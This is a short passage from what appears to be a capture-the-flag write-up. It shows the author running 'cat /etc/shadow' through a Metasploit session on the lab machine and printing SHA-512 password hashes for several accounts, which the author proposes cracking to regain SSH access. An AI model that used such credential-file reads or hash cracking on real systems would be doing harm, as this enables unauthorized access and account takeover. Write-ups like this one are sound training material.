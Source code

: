 # Extra Credit
I did, also, cat /etc/shadow so I can smash the user passwords if I wanted to. If for whatever reason I was unable to gather the flag right away and needed to SSH back into the machine, I could potentially crack these and go that route as our foothold.
```bash
msf6 > cat /etc/shadow
stty: 'standard input': Inappropriate ioctl for device
[*] exec: cat /etc/shadow

root:$6$RO4wVQ/hyXhjln4S$UQl5o6XSa2USqAM.RT9YwujFhZWriZqEz5We.opH1FLTbDtLfruET9jlKcEEqfxnCb1UxwhcfWJ/2gPJE77Bl.:18632:0:99999:7:::
 - clipped -
kid:$6$t9JpsHjs2xHQDAP1$QEU0fwmSLk43RRFkBN8qeBekqyjoGgSTny9srHGD38bTTfbeVSQb6lLMD3T.xWPubJVW9TMxsH3wWUrfNXHj.1:18632:0:99999:7:::
lxd:!:18632::::::
pwn:$6$Ci5SpF8qatWsgxYl$V.25LKjBgcpiLtytRV1OaqEBtYWMRT3HURaNXQ0mrdwMz12S0BZccmVgNDeAZcShpponbEedzJlpcGOXpLcWx.:18655:0:99999:7:::
```bash